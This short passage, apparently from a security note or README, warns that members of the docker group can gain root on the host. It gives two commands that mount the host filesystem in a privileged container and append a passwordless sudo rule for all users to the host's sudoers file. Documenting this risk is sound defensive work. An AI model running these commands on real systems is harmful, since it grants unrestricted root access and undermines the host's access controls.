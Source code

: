 


Users in the docker group can get root on the host, for example:


```
docker run -it --rm --privileged -v /:/mnt ubuntu bash
echo 'ALL=(ALL) NOPASSWD:ALL' >> /mnt/etc/sudoers
```
